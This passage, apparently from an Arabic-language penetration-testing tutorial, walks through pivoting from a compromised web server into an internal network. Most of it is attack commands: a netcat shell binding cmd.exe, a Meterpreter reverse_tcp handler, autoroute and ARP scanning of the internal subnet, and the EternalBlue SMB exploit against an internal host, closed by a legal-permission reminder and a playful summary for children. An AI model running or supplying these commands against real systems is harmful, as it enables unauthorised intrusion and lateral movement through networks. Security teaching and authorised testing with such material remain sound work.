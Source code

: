 3. **افتح Shell:**
   ```cmd
   nc.exe -lvp 4444 -e cmd.exe
   ```
   - في جهازك:
     ```bash
     nc 192.168.1.10 4444
     ```

4. **Pivoting بـ Meterpreter:**
   ```
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your-ip>
   run
   ```
   - في الـ Meterpreter:
     ```
     run autoroute -s 192.168.1.0/24
     run arp_scanner -r 192.168.1.0/24
     ```

5. **هاجم جهاز داخلي:**
   ```
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.11
   run
   ```

**ملاحظة:** كل الأوامر دي لازم تتعمل بإذن قانوني في بيئة اختبار! ⚖️

---

### **الخلاصة النهائية 😊**
Expanding Access يعني تستخدم سيرفر ويب مخترق عشان تتحرك داخل الشبكة الداخلية بـ Pivoting. استخدمنا أوامر زي `arp -a` وأدوات زي Meterpreter وProxychains عشان نكتشف ونهاجم أجهزة تانية.

**خلاصة للطفل:** زي لما تدخل غرفة صغيرة في بيت اللعب، وتستخدم سلم سحري 🪜 عشان تكتشف غرف سرية مليانة لعب وحلويات! 👑🍭